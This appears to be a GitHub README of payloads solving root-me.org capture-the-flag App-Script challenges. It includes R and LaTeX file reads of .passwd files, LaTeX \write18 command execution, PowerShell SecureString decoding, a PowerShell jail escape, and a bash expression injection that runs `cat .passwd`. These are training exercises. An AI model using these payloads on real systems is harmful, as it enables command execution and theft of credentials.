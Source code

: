 # root-me.org-payloads

## What is it ?

Some [root-me.org](https://www.root-me.org/) payloads

## R: Code Execution
[R Code Execution challenge](https://www.root-me.org/en/Challenges/App-Script/R-Code-Execution)

### Payload 
```R
read.table("/home/prof-stats/corriges_examens_analyses_stats/2021/flag.txt", sep = "\t", header = TRUE)
```

## LaTeX - Input
[LaTeX - Input challenge](https://www.root-me.org/fr/Challenges/App-Script/LaTeX-Input)

### Payload 
```LaTex
\documentclass{article}
\usepackage{verbatim}
\begin{document}
\verbatiminput{/challenge/app-script/ch23/.passwd}
\end{document}
```

## LaTeX - Command execution
[LaTeX - Command execution challenge](https://www.root-me.org/en/Challenges/App-Script/LaTeX-Command-execution)

### Payload
```LaTex
catcode `\_=12
\documentclass{article}
\begin{document}
\immediate\write18{cat /challenge/app-script/ch24/flag_is_here/512cba42fe46c1f346996b51fa053b15fba17baefa038d434381aa68bba6/.passwd > /tmp/buffer.tmp}
\input{/tmp/buffer.tmp}
\end{document}
```

## Powershell - SecureString
[PowerShell - SecureString challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-SecureString)

### Payload
```Powershell
([System.Runtime.InteropServices.Marshal]::PtrToStringAuto([System.Runtime.Int
eropServices.Marshal]::SecureStringToBSTR($SecurePassword)))
```

## Powershell - Basic jail
[PowerShell - Basic jail challenge](https://www.root-me.org/fr/Challenges/App-Script/Powershell-Basic-jail)

### Payload
Just type 
```Powershell
Content
```
Then in the prompter type
```bash 
./.passwd
```
Then enter and the flag will be prompt 

### Bash - quoted expression injection
[Bash - quoted expression injection](https://www.root-me.org/fr/Challenges/App-Script/Bash-quoted-expression-injection)

### Payload
```bash
'x[$(echo `cat .passwd`))]'
```
You will get an error message with the flag inside
